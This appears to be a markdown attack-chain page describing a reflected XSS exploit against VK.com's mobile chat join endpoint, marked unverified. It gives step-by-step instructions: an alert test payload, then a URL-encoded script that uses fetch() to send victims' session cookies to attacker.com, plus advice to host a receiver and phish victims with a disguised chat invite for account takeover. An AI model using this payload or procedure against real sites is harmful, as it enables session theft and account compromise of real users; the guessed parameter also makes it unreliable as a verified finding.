

# Reflected XSS in VK.com Mobile Chat Join for Session Hijacking

Multi-stage attack chain demonstrating a complete attack workflow exploiting insufficient input sanitization in the VK.com mobile chat join endpoint.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser with developer tools (e.g., Chrome DevTools)

### Target Environment

- Web platform
- Access to public-facing VK.com mobile endpoint at m.vk.com/chatjoin
- No authentication required for initial access

### Initial Access Requirements

- Public internet access
- No prior credentials needed
- Ability to craft and share URLs

## Detailed Attack Procedures

### Step 1: Identify and Test Vulnerable Parameter
procedure: [[procedures/Exploit-Reflected-XSS-in-VK-Chat-Join]]

**Objective**: Locate the reflected parameter in the chat join endpoint and verify XSS execution by injecting a test payload.

**Instructions**: Navigate to the target endpoint using a browser and append a test payload to a suspected reflected parameter (e.g., a query string like 'ref' or 'id' based on form inputs). Use the browser's address bar to construct the URL. Open developer tools (F12) to monitor network requests and console for script execution.

For initial testing, construct a URL like:

```url
https://m.vk.com/chatjoin?ref=<script>alert('XSS')</script>
```

Replace 'ref' with the actual vulnerable parameter identified from inspecting the page source or form fields. If the parameter reflects without sanitization, an alert box should pop up confirming execution.

**Expected Output**: Alert dialog in the browser or console log showing payload execution.

**Success Indicators**:
- Payload reflects in the page source without encoding
- JavaScript executes (e.g., alert triggers)
- No CSP blocks the inline script

### Step 2: Craft Malicious Payload and Deliver to Victim
procedure: [[procedures/Exploit-Reflected-XSS-in-VK-Chat-Join]]

**Objective**: Encode a malicious script to steal session cookies and deliver the crafted URL to the victim via phishing or social engineering.

**Instructions**: Once the vulnerability is confirmed, craft a payload to exfiltrate cookies, such as sending them to an attacker-controlled server. Use URL encoding for the script to bypass basic filters. Example payload:

```url
https://m.vk.com/chatjoin?ref=%3Cscript%3Efetch('https://attacker.com/steal?cookie='+document.cookie)%3C/script%3E
```

Host a simple receiver script on attacker.com to log stolen data. Share the URL with the victim (e.g., via email or chat, disguised as a chat invite). When the victim clicks and loads the page, the script executes in their browser context, transmitting session cookies.

**Expected Output**: Attacker server receives HTTP request with victim's cookies in the query string.

**Success Indicators**:
- Victim's browser loads the page and executes the script silently
- Cookies appear in attacker's logs, enabling session replay
- Potential account access via hijacked session

## Attack Chain Summary

### Key Achievements

1. Successful injection and execution of arbitrary JavaScript in victim context
2. Theft of sensitive session cookies leading to account takeover
3. Demonstration of phishing vector for broader campaign

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T12:00:00Z*
